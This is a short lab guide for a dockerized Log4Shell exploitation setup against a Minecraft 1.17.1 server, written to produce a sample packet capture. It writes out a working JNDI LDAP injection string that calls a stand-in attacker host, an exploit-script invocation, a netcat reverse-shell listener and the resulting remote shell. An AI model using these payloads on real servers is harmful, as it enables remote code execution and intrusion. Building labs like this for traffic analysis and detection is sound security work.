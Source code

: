 # Log4shell Minecraft exploitation lab
This guide describes how to generate the sample `capture.pcap` using a dockerized lab environment.

### Start containers
```
$ cd docker/
$ docker-compose up -d
```

### Legit player traffic
If you want to add some background noise, connect with a regular Minecraft client to your local server, mind to create a new Minecraft installation with v1.17.1 to be able to connect.

### log4j exploitation
```
# [term 0] udp reverse shell listener 
$ docker-compose exec attacker nc -u -nlvp 6666
Bound on 0.0.0.0 6666
```
```
# [term 1] try to exploit the server
$ docker-compose exec attacker python3 minecraft-log4shell.py -o -u user1234 -s vuln.minecraft-server.com -r attacker.evil.com --dns c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh --rce ldap://attacker.evil.com:389/#poc
....
[minecraft-log4shell] sending jndi:ldap rce udp bash reverse shell ...
Message (CHAT): {"translate":"chat.type.text","with":[{"insertion":"user1234","clickEvent":{"action":"suggest_command","value":"/tell user1234 "},"hoverEvent":{"action":"show_entity","contents":{"type":"minecraft:player","id":"c963d30f-bd07-3969-a89d-9702f2f81e56","name":{"text":"user1234"}}},"text":"user1234"},"${jndi:ldap://attacker.evil.com:389/#poc}"]}
[minecraft-log4shell] disconnecting...
```
Alternatively connect via a regular Minecraft client and paste this in the chat:
```
${jndi:ldap://attacker.evil.com:389/#poc}
```
After RCE you will get a shell:
```
# [term 0]
...
Connection received on 192.168.112.3 59611
$ id 
uid=1000(minecraft) gid=1000(minecraft) groups=1000(minecraft)
$ 
```

### tcpdump recording
```
$ docker-compose down
```

The pcap file will be located in `docker/tcpdump/capture.pcap`
